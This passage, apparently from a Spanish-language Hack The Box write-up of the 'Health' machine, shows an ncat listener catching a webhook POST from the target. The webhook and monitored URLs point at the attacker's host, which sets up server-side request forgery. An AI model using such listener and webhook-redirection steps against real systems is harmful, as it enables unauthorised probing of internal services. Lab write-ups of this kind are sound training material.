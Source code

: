 <img src="/writeups/assets/img/Health-htb/3.png" alt="">


Montando un servidor web real con python se puede apreciar en la petición por POST que se refleja el contenido del index.html

```null
nc -nlvp 80
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.11.176.
Ncat: Connection from 10.10.11.176:42238.
POST / HTTP/1.1
Host: 10.10.16.34
Accept: */*
Content-type: application/json
Content-Length: 335

{"webhookUrl":"http:\/\/10.10.16.34:80","monitoredUrl":"http:\/\/10.10.16.34:8080","health":"up","body":"Testing\n","message":"HTTP\/1.0 200 OK","headers":{"Server":"SimpleHTTP\/0.6 Python\/3.10.9","Date":"Tue, 10 Jan 2023 13:51:55 GMT","Content-type":"text\/html","Content-Length":"8","Last-Modified":"Mon, 09 Jan 2023 17:46:21 GMT"}}

```
